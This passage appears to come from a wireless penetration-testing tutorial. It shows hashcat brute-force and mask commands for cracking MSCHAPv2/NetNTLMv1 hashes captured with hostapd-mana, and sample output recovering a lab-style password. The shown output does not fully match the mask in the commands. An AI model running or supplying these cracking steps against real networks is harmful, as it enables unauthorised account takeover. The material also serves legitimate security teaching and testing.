 Now, we just need to execute the following command:

```
hashcat -m 5500 -a 3 hashcat-pw.txt
```

Or if you want to try to optimize the search:

```
hashcat -m 5500 -a 3 hashcat-pw.txt -1 "?l?u?d" "?1?1?1?1?1?1?1?1?1?1?1?1" --increment
```

|Argument           |Description                    |
|-------------------|-------------------------------|
|-m                 |`hashing method used (5500 corresponds to MSCHAPv2)`|
|-a                 |`cracking method to be used (3 correspondes to bruteforce)`|
|-1                 |`specify a mask`|
|--increment        |`increments by each character to the extent of the mask`|

- Note: Hashcat mask attack documentation can be found in the reference links.

After some processing, hashcat will show the following output:

```
user@realm::::134ddb1bafc81825511a9d55a62290efad53b236bd5b7d33:2e59a974b3373ee8:pass321
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
Hash.Target......: user@realm::::134ddb1bafc81825511a9d55a62290efad53b...373ee8
Time.Started.....: Fri Dec  8 10:54:06 2023 (39 secs)
Time.Estimated...: Fri Dec  8 10:54:45 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: ?1?2?2?2?2?2?2 [7]
Guess.Charset....: -1 ?l?d?u, -2 ?l?d, -3 ?l?d*!$@_, -4 Undefined 
Guess.Queue......: 7/15 (46.67%)
Speed.#1.........:   200.5 MH/s (4.98ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7826079744/134960504832 (5.80%)
Rejected.........: 0/7826079744 (0.00%)
Restore.Point....: 97280/1679616 (5.79%)
Restore.Sub.#1...: Salt:0 Amplifier:8192-9216 Iteration:0-1024
Candidate.Engine.: Device Generator
Candidates.#1....: lniorou -> Lurb710
Hardware.Mon.#1..: Util: 80%
```

From this output, in addition to the already known username ``user@realm``, hashcat found the password ``pass321``.

# Reference links

> [hostapd-mana package](https://github.com/sensepost/hostapd-mana.git)
